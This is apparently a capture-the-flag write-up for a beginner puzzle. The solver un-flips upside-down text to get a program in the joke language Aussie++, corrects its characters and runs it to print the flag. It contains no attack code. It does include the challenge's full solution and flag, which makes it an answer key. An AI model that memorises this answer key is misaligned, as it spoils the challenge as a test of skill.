To compile our code down here, we have to write it in the traditional Australian Syntax: ( Try reading bottom up! )

¡ƃɐlɟ ǝɥʇ ʇno noʎ ʇuᴉɹd ll,ʇᴉ puɐ ɹǝʇǝɹdɹǝʇuᴉ ǝɥʇ ɥƃnoɹɥʇ ʇᴉ unɹ puɐ ǝɹǝɥ ǝpoɔ sᴉɥʇ ǝʞɐʇ ʇsnJ .ƎWWIפ uɐɔ noʎ NOʞƆƎɹ I puɐ ┴∩Oq∀ʞ˥∀M ƃuᴉoפ '¡H∀N H∀Ǝ⅄ 'ɐʞʞɐ⅄ pɹɐH 'ǝʞᴉl sǝɹnʇɐǝɟ ɔᴉʇsɐʇuɐɟ ƃuᴉɹnʇɐǝℲ

.snlԀ snlԀ ǝᴉssn∀ ǝʌᴉsnlɔuᴉ ʎʇᴉuɐɟoɹd ǝɹoɯ 'ɹǝʇsɐɟ 'ɹǝʇʇǝq ǝɥʇ oʇ noʎ ǝɔnpoɹʇuᴉ I uɐɔ ʇnq ++Ɔ ɟo pɹɐǝɥ ǝʌ,no⅄

Author: _pix_

#### Solve

> https://codebeautify.org/text-flipper



After flipped the provieded file :

> welcome_to_ductf.aplusplus

```c
G'pAY MATE!

IMPOHT ME FUNC HitTheSack;
I rECkON STrEWTH = „{„;
IMPOHT ME FUNC ChuckSomepice;

THE HArp YAkkA FOr PrINT‾FLAG IS () <
  GIMME „YEAH MATE!, LETS PrINT THE FLAG„;
  HitTheSack(5000);
  
  I rECkON ME‾bbQ = 1;
  I rECkON YA‾FLAG = „CTFpU}YaFlagAin'tHereMate!{„;

  YA rECkON ME‾bbQ == 1 ? <
    GIMME YA‾FLAG;
  >
  
  HitTheSack(5000);
>
  

I rECkON GLAF = „pUCTF}„;
THE HArp YAkkA FOr THE‾CTF IS () <
	GIMME „Fetch'n the flag for ya mate!„;
    I rECkON HappyHour = „1ts-5oCl0ck‾5om3wh3rE„;
	I rECkON I'LL HAVE A WALkAbOUT UNTIL (YEAH, NAH!) <
	    GIMME „Where the flamin' galah is ya flag˙˙˙„;
		
		HitTheSack(1000);

		YA rECkON ChuckSomepice(0, 6) == 0 ? MATE FUCk THIS;
	>
  GIMME „bloody hell mate, I found it, some right bloody drongo left it near a croc„;
	GIMME GLAF + HappyHour + STrEWTH;
>

THE‾CTF();

GIMME „Enjoy the rest of the CTF!„;

CHEErS C***!
```

> https://aussieplusplus.vercel.app/


I read the [DOC](https://github.com/zackradisic/aussieplusplus/blob/master/DOCS.md) to replace some indented typos to meet the language's syntax requirements

Like : 

- `G'pAY MATE!` -> `G'DAY MATE!`
- `rECkON` -> `RECKON`
- `‾` -> `_`
- `HArp YAkkA` -> `HARD YAKKA`
- `„` -> `"`
- `ChunkSomepic` -> `ChuckSomeDice`


> DUCTF{1ts-5oCl0ck_5om3wh3rE}